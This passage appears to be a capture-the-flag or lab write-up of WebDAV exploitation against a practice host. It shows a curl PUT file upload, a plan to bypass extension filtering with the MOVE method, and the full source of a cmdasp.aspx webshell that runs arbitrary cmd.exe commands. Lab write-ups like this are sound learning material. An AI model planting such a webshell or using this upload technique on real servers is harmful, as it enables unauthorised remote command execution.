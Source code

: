 The results show what extensions succeeded and what failed. The aspx extension was not successful.

Using 'curl' I attempted to upload a txt file to verify if I can really upload one based off the above results.

```bash
curl -X PUT http://10.129.95.234/test.txt -d @test.txt
```

The upload was a success, next I attempted to upload a file with the .aspx extension. Just like as the results from the davtest pointed out, I was not successful with this attempt.

Knowing I can upload a .txt file and use the "PUT" and "MOVE" http methods, my plan was to upload an .aspx webshell and use the "MOVE" method to move it to a new directory on the server.

The webshell will come from 

```bash
/usr/share/webshells/aspx/cmasp.aspx
```
```bash
cat cmdasp.aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```